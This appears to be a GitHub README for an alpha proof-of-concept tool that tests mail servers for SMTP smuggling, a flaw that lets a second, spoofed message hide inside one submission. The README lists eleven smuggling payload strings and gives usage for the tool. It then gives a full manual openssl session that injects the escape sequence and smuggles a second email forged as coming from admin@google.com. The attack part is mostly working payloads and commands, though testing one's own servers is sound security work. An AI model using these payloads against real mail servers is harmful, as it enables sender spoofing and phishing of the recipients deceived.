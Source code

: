 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
https://www.postfix.org/smtp-smuggling.html

and here:

https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

### Beware this is alpha POC !! tested with postfix and python3

#### Testing of postfix mailserver for example (localhost port 25 auth plain login(optinal)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)


#### Testing these 11 payload strings:
```bash
#Smgggling Strings (0-10):
#smtp_smuggle_escape = '\r\n.\r'
#smtp_smuggle_escape = '\r\n\x00.\r'
#smtp_smuggle_escape = '\r\n\x00.\n'
#smtp_smuggle_escape = \r\n\x00.\r\n
#smtp_smuggle_escape = \r\n.\x00\r\n
#smtp_smuggle_escape = '\r\n.'
#smtp_smuggle_escape = \n.\r\n
#smtp_smuggle_escape = \r.\r\n
#smtp_smuggle_escape = \n\n.\r\n
#smtp_smuggle_escape = \r\n.\r
#smtp_smuggle_escape = \n.\n
```

### How to use:

```python
usage: smtp_smuggle.py [-h] [--server SERVER] [--port PORT] [--user USER]
                       [--rcpt RCPT] [--mode MODE]

Send mail with TLS und AUTH PLAIN.

optional arguments:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-Servername
  --port PORT      SMTP-Serverport
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def?
```

### Run like this:

```python
.\smtp_smuggling_checker.py --server mail.server.com --port 587 --user user@server.com --rcpt vic@server.com --mode def
```

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

